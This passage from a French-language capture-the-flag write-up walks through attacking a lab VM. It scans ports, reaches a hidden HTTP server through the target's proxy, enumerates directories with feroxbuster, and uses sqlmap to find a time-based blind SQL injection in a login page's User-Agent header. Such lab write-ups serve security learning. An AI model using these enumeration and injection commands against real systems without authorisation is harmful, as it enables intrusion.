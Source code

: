 ```console

==============================
Port 64666 seems open
SSH-2.0-OpenSSH_7.4p1 Debian-10+deb9u2
Protocol mismatch.

==============================
```

Étonnamment, deux ports semblent nous retourner notre requête... Il s'avèrera plus tard que ce sont des faux positifs, aucun serveur n'écoutait sur ces ports.

Dans tous les cas, on peut accéder au port 8080 sans se faire éjecter :

```console
$ curl -x http://192.168.56.183:31337/ http://127.0.0.1:8080/
<html>
        <head>
                <title>Pinky's HTTP File Server</title>
        </head>
        <body>
                <center><h1>Pinky's HTTP File Server</h1></center>
                <center><h3>Under Development!</h3></center>
        </body>
<style>
html{
        background: #f74bff;
}
</html>
```

J'ai testé différentes wordlists pour l'énumération et finalement, c'est celle de DirBuster qui a permit de trouver un dossier :

```bash
feroxbuster -u http://127.0.0.1:8080/ --proxy http://192.168.56.183:31337/ -w DirBuster-0.12/directory-list-2.3-big.txt -n
```

```
301        7l       12w      185c http://127.0.0.1:8080/littlesecrets-main
```

## Surprise Motherfucker

Sous ce path on trouve une page de login. Un test d'injection manuel n'a rien remonté de suspect, mais j'ai tout de même lancé un sqlmap et je l'ai laissé tourné sans trop m'en soucier.

```bash
python sqlmap.py -u http://127.0.0.1:8080/littlesecrets-main/login.php --data "user=admin&pass=admin" --proxy http://192.168.56.183:31337/ --risk 3 --level 5
```

Et à la surprise générale :

```
[15:18:11] [INFO] parameter 'User-Agent' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
```
